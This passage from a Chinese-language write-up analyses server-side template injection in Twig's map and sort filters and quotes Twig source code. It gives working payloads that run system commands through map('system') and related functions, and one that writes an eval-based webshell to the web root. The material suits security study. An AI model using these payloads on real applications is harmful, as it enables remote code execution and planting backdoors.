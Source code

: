 > 从上面的代码中可以看到传入的 `$arrow` 直接就被当成函数执行，即 `$arrow($v, $k)`，而 `$v` 和 `$k` 分别是 `$array` 中的 `value` 和 `key`
> 并且 `$array` 和 `$arrow` 都是可控的，因此直接传一个可传入两个参数的、能够命令执行的危险函数名即可实现命令执行

```php
system ( string $command [, int &$return_var ] ) : string
passthru ( string $command [, int &$return_var ] )
exec ( string $command [, array &$output [, int &$return_var ]] ) : string
shell_exec ( string $cmd ) : string
```

> 上述四个方法可以达到命令执行的有前三个，并且 exec 是无回显执行

```php
{{["calc"]|map("system")}}
{{["calc"]|map("passthru")}}
{{["calc"]|map("exec")}}    // 无回显
```

> 如果上面这些命令执行函数都被禁用了还可以执行其他函数执行任意代码

```php
{{["phpinfo();"]|map("assert")|join(",")}}
{{{"<?php phpinfo();eval($_POST[H3rmesk1t]);":"/var/www/html/shell.php"}|map("file_put_contents")}}    // 写 Webshell
```

> 既然 map 的 `$arrow` 可以利用，那继续寻找带有 $arrow 参数的应该也可以发现可以利用的过滤器

### sort 过滤器
> 这个 sort 筛选器可以用来对数组排序，可以传递一个箭头函数来对数组进行排序

```php
{% for user in users|sort %}
    ...
{% endfor %}


{% set fruits = [
    { name: 'Apples', quantity: 5 },
    { name: 'Oranges', quantity: 2 },
    { name: 'Grapes', quantity: 4 },
] %}

{% for fruit in fruits|sort((a, b) => a.quantity <=> b.quantity)|column('name') %}
    {{ fruit }}
{% endfor %}

// Output in this order: Oranges, Grapes, Apples
```

> 类似于 map，模板编译的过程中会进入 twig_sort_filter 函数，这个 twig_sort_filter 函数的源码如下

```php
function twig_sort_filter($array, $arrow = null)
{
    if ($array instanceof \Traversable) {
        $array = iterator_to_array($array);
    } elseif (!\is_array($array)) {
        throw new RuntimeError(sprintf('The sort filter only works with arrays or "Traversable", got "%s".', \gettype($array)));
    }

    if (null !== $arrow) {
        uasort($array, $arrow);    // 直接被 uasort 调用 
    } else {
        asort($array);
    }

```